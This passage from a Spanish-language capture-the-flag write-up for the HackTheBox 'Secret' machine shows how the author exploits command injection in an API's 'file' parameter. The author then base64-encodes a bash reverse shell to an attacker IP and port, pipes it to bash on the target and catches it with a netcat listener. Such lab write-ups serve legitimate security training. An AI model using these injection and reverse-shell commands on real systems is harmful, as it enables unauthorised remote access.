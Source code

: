 ```python
...
r = s.get(URL + '/api/logs', params={"file":"hola || id"}, headers=headers)
...
```

Yyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/secret/408bash_PY_logsAPI_commandInjection_id.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PERFECTOOOOOOOOOOOowooweoOOOWOoweo, tenemos **ejecución remota de comandos** mediante un **command-injection**, démosle forma rápidamente a ese script y finalmente usémoslo para obtener una reverse shell en el sistema (:

> Simplemente le cambie el nombre al programa de `playWITHapi.py` a `apInjection.py` (:

Por ejemplo, si queremos ver la ruta actual donde estamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/secret/408bash_PY_logsAPI_commandInjection_pwd.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Les dejo el programa acá:

> [apInjection.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/secret/apInjection.py)

Vamos a obtener la reverse shell siguiendo estos pasos (hay otras maneras, esta me gusta), primero encodeamos (para evitar problemas mientras viaja por la red) la RevShell que al ejecutarse hará una petición hacia nuestra IP (en mi caso `10.10.14.4`) y el puerto en el que nos pongamos en escucha (en mi caso el `4433`) enviando una `bash`:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.4/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzQ0MzMgMD4mMQo=
```

Ahora nos ponemos en escucha:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Y como comando final (que se ejecutara ya en el servidor, NO en nuestra máquina) le indicamos: Toma la cadena encodeada, decodeala y ejecútala por favor (:

```bash
❱ python3 apInjection.py 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzQ0MzMgMD4mMQo= | base64 -d | bash'
```

Enviamos la petición yyyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/secret/408bash_PY_logsAPI_commandInjection_RevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y LIIIIISTOS! Ya tenemos nuestra sesión en el sistema como el usuario `dasith`.

Antes de seguir volvamos nuestra terminal interactiva, esto para lograr movernos entre comandos, tener histórico de ellos y ejecutar `CTRL+C` sin temor a perder la Shell:
